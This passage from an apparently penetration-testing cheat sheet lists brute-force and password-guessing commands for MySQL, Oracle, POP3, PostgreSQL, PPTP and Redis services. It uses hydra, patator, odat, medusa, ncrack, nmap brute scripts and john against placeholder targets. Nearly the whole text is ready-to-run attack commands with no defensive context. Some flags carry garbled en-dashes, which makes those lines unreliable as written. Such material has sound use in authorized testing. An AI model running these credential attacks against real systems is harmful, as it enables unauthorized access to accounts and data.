 MySQL[](#mysql)

hydra -L usernames.txt -P pass.txt <IP> mysql

### 

OracleSQL[](#oraclesql)

pip3 install cx_Oracle --upgrade

patator oracle_login sid=<SID> host=<IP> user=FILE0 password=FILE1 0=users-oracle.txt 1=pass-oracle.txt -x ignore:code=ORA-01017

./odat.py passwordguesser -s $SERVER -d $SID

./odat.py passwordguesser -s $MYSERVER -p $PORT --accounts-file accounts_multiple.txt

nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=<SID> <IP>

nmap -p1521 --script oracle-brute-stealth --script-args oracle-brute-stealth.sid=DB11g -n 10.11.21.30

john hashes.txt

### 

POP3[](#pop3)

hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V

hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V

### 

PostgreSQL[](#postgresql)

hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> postgres

medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M postgres

ncrack –v –U /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP>:5432

patator pgsql_login host=<IP> user=FILE0 0=/root/Desktop/user.txt password=FILE1 1=/root/Desktop/pass.txt

nmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>

### 

PPTP[](#pptp)

cat rockyou.txt | thc-pptp-bruter –u <Username> <IP>

### 

Redis[](#redis)

nmap --script redis-brute -p 6379 <IP>

hydra –P /path/pass.txt <IP> redis

### 

Rexec[](#rexec)
